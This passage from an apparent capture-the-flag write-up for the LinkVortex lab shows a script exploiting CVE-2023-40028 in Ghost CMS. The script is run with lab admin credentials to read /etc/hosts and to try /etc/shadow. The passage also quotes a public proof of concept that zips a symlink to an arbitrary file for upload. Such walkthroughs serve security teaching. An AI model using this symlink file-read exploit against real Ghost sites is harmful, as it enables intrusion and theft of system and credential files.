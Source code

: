 
It reads files:

```

oxdf@hacky$ python read.py linkvortex.htb admin@linkvortex.htb OctopiFociPilfer45 /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.20.0.2      e21648970fd9

oxdf@hacky$ python read.py linkvortex.htb admin@linkvortex.htb OctopiFociPilfer45 /etc/0xdf
file not found: /etc/0xdf
oxdf@hacky$ python read.py linkvortex.htb admin@linkvortex.htb OctopiFociPilfer45 /etc/shadow
unable to access: /etc/shadow

```

#### Public POC

There is a [POC](https://github.com/0xyassine/CVE-2023-40028) on GitHub that was present at the time of LinkVortex’s release, so I suspect most people used it. This POC exploits the vulnerability with a Bash script. I never used this, but it’s worth taking a quick look at how it works.

It starts by defining some locations:

```

#GHOST ENDPOINT
GHOST_URL='http://127.0.0.1'
GHOST_API="$GHOST_URL/ghost/api/v3/admin/"
API_VERSION='v3.0'

PAYLOAD_PATH="`dirname $0`/exploit"
PAYLOAD_ZIP_NAME=exploit.zip

```

It has a `generate_exploit` function that makes a Zip archive:

```

function generate_exploit()
{
  local FILE_TO_READ=$1
  IMAGE_NAME=$(tr -dc A-Za-z0-9 </dev/urandom | head -c 13; echo)
  mkdir -p $PAYLOAD_PATH/content/images/2024/
  ln -s $FILE_TO_READ $PAYLOAD_PATH/content/images/2024/$IMAGE_NAME.png
  zip -r -y $PAYLOAD_ZIP_NAME $PAYLOAD_PATH/ &>/dev/null
}

```
